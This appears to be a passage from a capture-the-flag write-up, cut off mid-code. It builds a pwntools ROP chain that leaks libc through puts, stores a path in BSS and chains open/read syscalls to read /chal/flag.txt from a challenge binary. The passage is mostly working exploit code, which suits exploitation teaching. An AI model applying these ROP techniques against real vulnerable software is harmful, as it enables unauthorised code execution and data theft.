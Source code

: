 Now, we need to leak the LIBC:-
```py
payload = b"A"*56
payload += p64(pop_rdi)
payload += p64(elf.got("puts"))
payload += p64(elf.plt("puts"))
```

Now the above chain will leak LIBC, we also need to store the flag location to BSS so the address could be used for `open` later, we do `gets(bss)` with following rop chain:-

```py
payload += p64(pop_rdi)
payload += p64(flag_location)
payload += p64(elf.plt('gets'))
```

We call the `vuln` again so we can send ROP chain later:-

```py
payload += p64(elf.function("vuln"))
p.sendlineafter("?\n", payload)

# Parse the leaked address
leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("LEAK:   0x%x" %(leak))
libc.address = leak - libc.function("puts")
```

We need following gadgets to specify the syscall number and pass arguments to functions called:-

```py
pop_rdx = libc.address + 0x0000000000001b96
pop_rsi = libc.address + 0x0000000000023e6a
syscall = libc.address + 0x00000000000d2975
pop_rax = libc.address + 0x00000000000439c8 

log.info("LIBC:   0x%x" %(libc.address))
```

Now, since we get the address of the LIBC, that means we need to give the `/chal/flag.txt` as a location:-
```py
p.sendline("/chal/flag.txt")
```
Now, time to for real deal:-
```py
payload = b"A"*56
payload += p64(0x401016) # ret; since it is Ubuntu 18.04
```

Now, we do `open` syscall with path being the flag location and mode being the `read-only`:-

```py

'''
open("/chal/flag.txt", 0);
'''
payload += p64(pop_rax)
payload += p64(0x2)
payload += p64(pop_rdi)
payload += p64(flag_location)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(syscall)
```
Then. we do read syscall, since no file is being opened within the binary the `fd` would be 3.(educated guess)
```py
'''
read(0x3, flag, 0x100);
```